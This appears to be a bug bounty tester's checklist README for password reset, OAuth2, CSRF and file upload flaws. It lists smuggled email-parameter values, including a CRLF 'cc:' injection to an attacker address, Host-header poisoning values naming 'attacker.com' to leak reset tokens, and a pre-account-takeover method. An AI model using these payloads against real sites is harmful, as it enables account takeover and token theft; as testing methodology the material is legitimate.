 # MyBugbountyCheckList

# Password reset/forgot

- Password reset link not expiring
- No rate limiting on password reset
    > Start the burp suite and intercept the password reset request
    
    > Send to intruder
   
    > Use null payload

- Password reset token leak via referer
    > Request password reset to your email address
    
    > Open on the password reset link
    
    > Make sure you don’t change the password there
    
    > On Password Reset Page Click On Social Media Links Given Below And Capture The Request Using Burp Suite
    
    > Check if the referer header is a leaking password reset token?

- Password reset with manipulating email parameter
    
    > email=victim@xyz.tld&email=hacker@xyz.tld
       
    > email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
        
    > email=victim@xyz.tld,hacker@xyz.tld
    
    > email=victim@xyz.tld%20hacker@xyz.tld
    
    > email=victim@xyz.tld|hacker@xyz.tld
    
    > email=victim
    
    > email=victim@xyz
    
    > {“email”:[“victim@xyz.tld”,”hacker@xyz.tld”]}
   
- Password reset Poisoining leads to token leak
    > Host: attacker.comHost: target.com
    
    > X-Forwarded-Host: attacker.comHost: target.com
    
    > Host: attacker.com
   
# Oauth2 vulnerabilities

- Implicit-grant type vulnerable to manipulating emails 

- CSRF-Improper handling of `state` parameter

- Weak validation of `redirect-uri` parameter to auth_code leak, xss, open ridirects, etc.

- client_secret_key, access_token leaked

- Pre Account Takeover 
    > If the application does not require email verification on account creation, try creating an account with a victim’s email address and attacker password       before the victim has registered. If the victim then tries to register or sign in with a third party, such as Google, it’s possible the application           will do a lookup, see that email is already registered, then link their Google account to the attacker created account. This is a “pre account               takeover” where an attacker will have access to the victim’s account if they created it prior to the victim registering 

# CSRF/Clickjacking 
- O`n my profile` sensitive action like `delete account, password/email change`

# File upload vulnerabilities 
- On profile pic, and others to `RCE, XXE, XSS,etc.`
 
